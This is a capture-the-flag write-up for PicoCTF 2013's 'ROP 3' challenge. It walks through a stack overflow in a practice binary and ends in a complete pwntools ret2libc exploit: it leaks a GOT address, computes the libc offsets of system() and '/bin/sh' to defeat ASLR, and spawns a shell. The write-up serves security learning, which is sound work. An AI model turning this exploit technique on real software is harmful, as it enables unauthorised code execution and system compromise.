 # PicoCTF 2013: ROP 3

**Category:** Binary Exploitation
**Points:** 150
**Description:**

> ROP is a classic technique for getting around address randomization and
> non-executable memory. This sequence will teach you the basics.
>
> Problem available on the shell machine in /problems/ROP_3_7f3312fe43c46d26,
> downloadable [here](https://2013.picoctf.com/problems/rop3-7f3312fe43c46d26) with source [here](://2013.picoctf.com/problems/rop3-7f3312fe43c46d26.c).
>
>

## Write-up
**DISCLAIMER: Many of the other writeups for this online used ulimit to disable
ASLR during their session. This makes the problem exceptionally easy. My
writeup will show how to solve it the hard way, since you're likely using this
for practice. It is also only a local solution since I don't think you can
install pwntools on the PicoCTF server.**

Just like ROP 1 and ROP 2, RIP Shellcode.

This one's going to be a bit harder. If you haven't read my bit on the GOT and
PLT from [ROP 2](../rop-2) then you should do that :)

looking at the code, we can see there isn't anything extra for us to work with.
```C
#undef _FORTIFY_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulnerable_function()  {
    char buf[128];
    read(STDIN_FILENO, buf,256);
}

void be_nice_to_people() {
    // /bin/sh is usually symlinked to bash, which usually drops privs. Make
    // sure we don't drop privs if we exec bash, (ie if we call system()).
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
}

int main(int argc, char** argv) {
        be_nice_to_people();
    vulnerable_function();
    write(STDOUT_FILENO, "Hello, World\n", 13);
}
```

This challenge actually requires us to **bypass ASLR** as opposed to calling
premade functions. `system()` isn't called in this program, so there isn't a PLT
stub for it :(. Luckily, bypassing ASLR is only mildly painful.

We'll start by finding the offset for `$eip`.
```
python -c 'print "A"*140 + "BBBB"' | strace ./rop3-7f3312fe43c46d26
...
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x42424242} ---
```
140 bytes, just like the other ROP problems so far. Now comes the fun part. You
know that the GOT contains the pointers into libc for the binary to use. What
you may not have known is that the GOT is writable. You can change values in
the GOT that correspond to PLT stubs. If you were able to change a pointer by a
certain am.ount and then call the corresponding PLT stub, you could trick the
program into calling `system()`. We can run objdump to find what PLT/GOT
functions we have to work with.

```
$ objdump -d rop3-7f3312fe43c46d26 | grep ">:"
08048360 <read@plt>:
...
...
080483a0 <write@plt>:
```

Unfortunately those are about the only two useful functions we have, but
they'll be enough. In addition, we'll need the address of functions in the GOT
for us to leak.

```
$ objdump -R rop3-7f3312fe43c46d26

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a000 R_386_JUMP_SLOT   read
0804a004 R_386_JUMP_SLOT   getegid
0804a008 R_386_JUMP_SLOT   __gmon_start__
0804a00c R_386_JUMP_SLOT   __libc_start_main
0804a010 R_386_JUMP_SLOT   write
0804a014 R_386_JUMP_SLOT   setresgid
```
Our first vector of attack will be to call `write()` and print out an address
from the GOT like so:

`write(1,address_read_GOT,4)`

```
python -c 'print "A"*140 + "\xa0\x83\x04\x08" + "AAAA" + "\x01\x00\x00\x00" +
"\x00\xa0\x04\x08" + "\x04\x00\x00\x00"' | ./rop3-7f3312fe43c46d26
```

The "AAAA" in the exploit is the return address, we'll get to that later. If
you run this, you'll get a little bit of gibberish to print out and then a
segfault. That gibberish is the libc address of `read()` for that runtime.
Time for good ol' gdb:

```
$ gdb rop3-7f3312fe43c46d26
gdb-peda$ b*main
gdb-peda$ r

```
Your results may vary from here on.
```
db-peda$ p read
$1 = {<text variable, no debug info>} 0xf7efdbd0 <read>
gdb-peda$ p system
$2 = {<text variable, no debug info>} 0xf7e63190 <system>
gdb-peda$ p 0xf7efdbd0-0xf7e63190
$3 = 0x9aa40
```
Address of `system()` is **lower** than `read()` by 0x9aa40
```
gdb-peda$ find /bin/sh
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f83a24 ("/bin/sh")
gdb-peda$ p 0xf7f83a24-0xf7efdbd0
$5 = 0x85e54
```
Address of /bin/sh is **greater** than `read()` by 0x85e54.
Now we need to change the "AAAA" in our exploit to the address of
`vulnerable_function()`. This will retrigger the vulnerability, enabling us to
calculate the address of 'system()' and "/bin/sh" and make the appropriate
function call.
```
python -c 'print "A"*140 + "\xa0\x83\x04\x08" + "\x74\x84\x04\x08" + "\x01\x00\x00\x00" +
"\x00\xa0\x04\x08" + "\x04\x00\x00\x00"' | ./rop3-7f3312fe43c46d26
```

At this point, we'll need to use pwntools. You can install it with:
```
sudo pip install pwntools
```

Here's why. Once we have that leaked address we can do some napkin math to
calculate the address of `system()`. **ASLR only randomises the base address of
libc. This means that `system()` is always the same distance from `read()` or
`write()` at any given runtime**. pwntools can do that math for us. We can
start our python script as such:
```python

from pwn import *
context(arch='i386', os='linux')
#conventions for pwntools ^

first_part = ("A"*140 + "\xa0\x83\x04\x08" + "\x74\x84\x04\x08"
+ "\x01\x00\x00\x00" + "\x00\xa0\x04\x08" + "\x04\x00\x00\x00" )
# our exploit so far ^
r = process("./rop3-7f3312fe43c46d26", shell=True) #executes the binary
r.sendline(first_part ) #feeds the exploit to the binary
a=unpack(r.recv(4)) #gets the four bytes we leaked from the GOT
print hex(a)
```
if you run this a few times the address should vary from run to run.
This is a good thing, it means that you're getting the random libc address.
From here, you can calculate the addresses we found before in gdb by adding
these lines.
```python
system_address=a-0x9aa40
binsh_address = a+0x85e54

r.sendline("A"*140+pack(system_address)+"JUNK"+pack(binsh_address))

""" The above line sends 140 bytes of padding, the little endian form of
    system_address, a bogus return address, and the little endian form of the
    address of /bin/sh. The pack() function just turns the integer into an escape
    sequence for us
"""
r.interactive() # This just enables you to type things in to your shell :)
```

pwned.
## Other write-ups and resources

* none yet
